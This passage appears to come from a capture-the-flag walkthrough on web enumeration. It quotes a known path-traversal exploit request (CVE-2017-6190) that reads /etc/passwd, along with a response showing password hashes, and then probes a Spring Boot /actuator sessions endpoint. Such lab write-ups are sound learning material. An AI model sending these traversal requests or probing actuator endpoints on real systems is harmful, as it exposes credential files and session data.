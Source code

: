 Interestingly, we can check online to see if searching the previously known vulnerability that was not fixed, CVE-2017-6190, yields anything more.

We find in exploit-db exploit #41840, we see:

```HTTP Request:

GET /uir/../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1

Host: 192.168.2.1

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

HTTP Response:

HTTP/1.0 200 OK

Content-Type: application/x-none

Cache-Control: max-age=60

Connection: close

root:$1$$taUxCLWfe3rCh2ylnFWJ41:0:0:root:/root:/bin/ash

nobody:$1$$qRPK7m23GJusamGpoGLby/:99:99:nobody:/var/usb:/sbin/nologin

ftp:$1$$qRPK7m23GJusamGpoGLby/:14:50:FTP USER:/var/usb:/sbin/nologin
```

This feels like the right path, but we must think harder on this. We could use the curl command again and follow the redirect with `-L` tag.

Doing this takes us to the homepage, not helpful.

Using `curl` we find out Bootstrap's version Bootstrap v5.2.3. Searching for vulnerabilities, I find there are no direct vulnerabilities.

Hint obtained: Need more directory enumeration...

Web Directory Enumeration Continued

There is a Whitelabel Error page, meaning no explicit mapping for `/error`. Researching this further, I found out that the Whitelabel error page is a result of the website's structure, by default, Spring Boot will scan the components below the main application class. I also found that as of Spring Boot 2.0.0.RELEASE the default prefix for all endpoints is `/actuator`.

So, let's check that URL. Ah, we see sessions. That is promising, let's navigate there:

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FskdByKhrTDrekGP0vU0U%2Fuploads%2FGtCHMyjBQxyUWyagiLR2%2Fimage.png?alt=media&token=ceb362f9-0a99-4856-aef0-46175d1a1075)
